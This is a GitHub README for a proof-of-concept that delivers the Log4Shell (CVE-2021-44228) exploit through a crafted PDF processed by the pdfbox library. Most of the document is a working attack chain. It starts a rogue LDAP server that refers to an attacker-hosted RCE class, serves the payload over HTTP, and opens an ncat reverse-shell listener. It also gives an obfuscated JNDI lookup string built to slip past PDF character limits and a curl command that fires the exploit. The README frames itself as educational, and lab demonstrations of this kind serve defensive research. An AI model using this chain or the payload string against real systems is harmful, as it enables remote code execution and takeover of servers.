



# Exploiting CVE-2021-44228 using PDFs as delivery channel - PoC

The purpose of this project is to demonstrate the Log4Shell exploit with Log4J vulnerabilities using PDF as delivery channel.

The goal is to:
- Carefully craft a malformed PDF file that contains the JNDI lookup payload
- Force the `pdfbox` library to log an ERROR/WARN message that contains the JNDI lookup payload

## Disclaimer

- This PoC is for informational and educational purpose only
- All the information are meant for developing Hacker Defense attitude and help preventing the hack attacks.

## Setup

This repository contains a Web Application that process PDF files using pdfbox library and it is vulnerable to CVE-2021-44228

- org.apache.pdfbox:pdfbox:2.0.24 (latest version)
- org.apache.logging.log4j:log4j-core:2.14.1
- openjdk:8u181-jdk-alpine

The `com.sun.jndi.ldap.object.trustURLCodebase` it set to `true`

# Build the vulnerable application

Build the docker container:

```bash
docker build . -t pdfbox-server
```

# Exploitation

1. Run the vulnerable application

```bash
docker run -p 8080:8080 --name pdfbox-server pdfbox-server
```



2. Start the rogue LDAP server

Change the IP accordingly to your setup

```bash
git clone git@github.com:mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.26.160.1:8888/#RCE"
```

3. Compile the RCE payload and start the HTTP server used to deliver the payload

Edit the `RCE.java` file and change the host variable accordingly to your setup

```bash
cd exploit
javac RCE.java
python -m http.server 8888
```

4. Start the reverse shell listener

```bash
ncat -lvnp 4444
```

5. Modify the PDF

Open the `template.pdf` file in any editor and change the lookup expression. Because `/` is a reserved character in PDF specifications, I've used the recursive variable replacement lookup capabilities.

```bash
${jndi:ldap:${sys:file.separator}${sys:file.separator}172.26.160.1:1389${sys:file.separator}RCE}
```



5. Trigger the exploit

```bash
curl -i -s -X POST http://127.0.0.1:8080/api/parse --data-binary "@template.pdf"
```

